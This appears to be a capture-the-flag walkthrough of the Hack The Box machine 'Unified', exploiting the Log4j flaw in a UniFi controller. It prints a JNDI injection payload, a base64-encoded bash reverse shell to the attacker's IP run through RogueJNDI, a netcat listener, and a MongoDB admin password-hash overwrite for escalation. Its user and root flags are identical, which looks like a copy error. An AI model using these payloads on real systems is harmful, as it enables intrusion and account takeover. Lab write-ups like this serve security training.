

# HTB - Unified

Machine : unified
IP : 10.129.212.114
Vulnerability : Log4j

### NMAP SCAN

```jsx
$ nmap -A -sT -sU 10.129.212.114 -F

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-23 09:14 EDT
Stats: 0:02:47 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 75.00% done; ETC: 09:17 (0:00:14 remaining)
Nmap scan report for 10.129.212.114
Host is up (0.28s latency).
Not shown: 99 closed udp ports (port-unreach), 97 closed tcp ports (conn-refused)
PORT     STATE         SERVICE         VERSION
22/tcp   open          ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open          http            Apache Tomcat (language: en)
|_http-title: Did not follow redirect to https://10.129.212.114:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp open          ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
68/udp   open|filtered dhcpc
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   279.58 ms 10.10.14.1
2   282.51 ms 10.129.212.114
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 248.18 seconds
```

We have an SSH, 8080 and 9443 (possibly a webserver running), and 68 for DHCP.

The looks of the scan gives us an idea that this is a router OS

Going to the port 8080, it forwards us to port 8443 which shows us a Unifi login screen.
Service : Unifi
Version : 6.4.54

CVE : CVE-2021-44228

webserver : Apache Tomcat

This version of Unifi contains the java log4j vulnerability which gives us a Remote Code Execution Vulnerability.

We need to test if this vulnerability is active.
Open a packet listener on port 389 which is the default port for LDAP

```bash
sudo tcpdump -i tun0 port 389
```

Now capture the login request using burp suite and change:

```bash
{"username":"admin","password":"pass","remember":"false","strict":true}
to
{"username":"admin","password":"pass","remember":"${jndi:ldap://10.10.14.53/test}","strict":true}
```



Now if we look at the tcpdump listener we can see some request coming in from the server.

To exploit this vulnerability and obtain a reverse shell we need these apps installed: Java and Maven.

```bash
sudo apt install opnejdk-11-jre maven
```

we use java version 11 because of its long term support, compatability and stability.

In the previous step, we used tcpdumpfor testing. This time, we will use RogueJNDI, a malicious LDAP server for JNDI injection attacks.

Clone the repository and use Maven to compile the source code.
Usually, the source code needs to be customized to suit our needs before compiling. In this case, we don’t have to change anything.

```bash
git clone [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi)
mvn package
```


After maven finished we can see this


In the same folder there is another one folder /target, in it, there is the compiled file called RogueJndi-1.1.jar: 


Now This build does not come with the payloads installed, we need to add them, after a few attempts I found that some special characters are not supported. So we need to encode the reverse shell code in base64.
`echo "bash -c 'bash -i >/dev/tcp/10.10.14.53/4444 0>&1'"`

we get the base64 version:
`YmFzaCAtYyAnYmFzaCAtaSA+L2Rldi90Y3AvMTAuMTAuMTQuNTMvNDQ0NCAwPiYxJwo=`

Next, we will run our payload with RogueJNDI. When the target performs a JNDI lookup, RogueJNDI will respond with the reverse shell payload.

```java
java -jar target/RogueJndi-1.1.jar \
  --command '{bash,-c} "{echo,YmFzaCAtYyAnYmFzaCAtaSA+L2Rldi90Y3AvMTAuMTAuMTQuNTMvNDQ0NCAwPiYxJwo=}|{base64,-d}|{bash,-i}"' \
  --hostname 10.10.14.53
```


We can see it running.

The malicious server, payload, and listener are ready. Now, we return to Burp Repeater.

In Burp Repeater, modify the request to interact with the Tomcat entry, then send it.

```json
“${jndi:ldap://10.10.14.53:1389/o=tomcat}”,
```

The malicious server, payload, and listener are ready.

Now lets start a netcat listener in port 4444

```bash
nc -lnvp 4444

```

Now, we return to Burp Repeater.

In Burp Repeater, modify the request to interact with the Tomcat entry, then send it.

```json
“${jndi:ldap://10.10.14.53:1389/o=tomcat}”,

```

Now if we go back we would have a connection in our netcat listener


and to get an interactive shell type:
`script /dev/null -c bash`

with that we can find the user flag by typing

```bash
cat /home/michael/user.txt
```

User Flag : `6ced1a6a89e666c0620cdb10262ba127`

Now we need the Root Flag

Lets login to the MongoDB server to see if there is something we can find there.

We can login to it using the command:

```bash
mongo --host 127.0.0.1 --port 27117
```


After looking at the admin ace database I found a collection named admin.

```sql
db.admin.find().pretty()
```


That gave us a interesting ID. The administer username and email along with the password hash.

The passwords is a sha-512, that means cracking the password is not a good option. But,

If we can modify them, it is possible to login by impersonating the administrator.

Lets start by creating our own password hash, In your own terminal type the following

)we will use the password “Password1234”)

```sql
mkpassword -m sha-512 Password1234
```


Now lets change the administrator password hash

Type this in the mongo shell.

```sql
db.admin.update({ _id:ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{x_shadow:"$6$MRZuwhWB67BdMNE0$THoLHRCw86NMJmNG8w5ywpeIIWB5vZdGK4HmEB5WmuRlXJQC7RHNXw/JriCQdKltENzqjTBFGrSsNaByEK/K0."}})
```

then login using administrator and Password1234.


If we go to the settings from the sidebar and scroll down we can see the admin password


admin password : NotACrackablePassword4U2022

Now use that password to login via SSH and get the root flag

Root flag : `6ced1a6a89e666c0620cdb10262ba127`